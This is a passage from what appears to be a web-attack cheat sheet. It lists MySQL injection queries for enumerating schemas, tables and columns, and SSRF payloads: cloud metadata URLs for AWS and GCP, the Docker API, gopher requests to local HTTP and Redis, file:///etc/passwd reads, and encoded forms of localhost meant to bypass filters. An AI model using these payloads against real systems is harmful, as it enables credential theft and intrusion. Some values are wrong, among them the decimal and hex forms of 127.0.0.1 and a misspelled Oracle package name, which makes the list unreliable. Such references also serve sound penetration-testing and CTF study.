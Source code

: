   | DB     | Function          |                 |           |            |          |
  |:-------|:------------------|:----------------|:----------|:-----------|:---------|
  | MySQL  | user()            | current\_user() | version() | database() | schema() |
  |        | group\_concat()   |                 |           |            |          |
  | Oracle | url\_http.request |                 |           |            |          |
- Special Table
  | DB           | Payload                                                             | Comment   |
  |:-------------|:--------------------------------------------------------------------|:----------|
  | MySQL >= 5.0 | `SELECT schema_name FROM information_schema.schemata;`               | Databases |
  |              | `SELECT table_name FROM information_schema.tables WHERE table_schema = '<database>';`                  | Tables    |
  |              | `SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = '<database>' AND table_name = '<table>'`  | Columns   |

#### SSRF
> [SSRF bible Cheatsheet](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf)

- Scheme
  > [URL schema support](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#bookmark=id.osggnj3pn7l6)

  - HTTP
    - Docker API  
      `http://IP:2375/images/json`
    - Cloud Metadata (GCP)  
      `http://metadata.google.internal/computeMetadata/v1/...`
    - Cloud Metadata (AWS)  
      `http://169.254.169.254/latest/user-data/...`
  - Gopher
    > Generate arbitrary TCP packet under no interaction.
    >
    > `gopher://<authority>/<padding><tcp payload>`

    - [Gopher Payload Generator](https://github.com/tarunkant/Gopherus)
    - HTTP GET/POST  
      `gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0D%0AHost:127.0.0.1%0D%0A%0D%0A`
    - MySQL (must without password)  
      [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
    - Redis  
      `gopher://127.0.0.1:6379/_SET%20key%20"value"%0D%0A`
    - PHP-FPM
  - Local File
    - `file:///etc/passwd`
    - `file://localhost/etc/passwd`
    - `python` `local_file:///etc/passwd`
    - `java` `file:///var/www/html/`
    - `java` `netdoc:///var/www/html/`
- Authority
  - localhost
    - 127.0.0.1
    - localhost
    - 127.0.1
    - 127.1
    - 0.0.0.0
    - 0
  - IP Address
    - 2130706443 (dec)
    - 0x7f00000001 (hex)
    - 0x7f.0x0.0x0.0x1
    - 0177000000001 (oct)
    - 0177.0.0.01
  - IPv6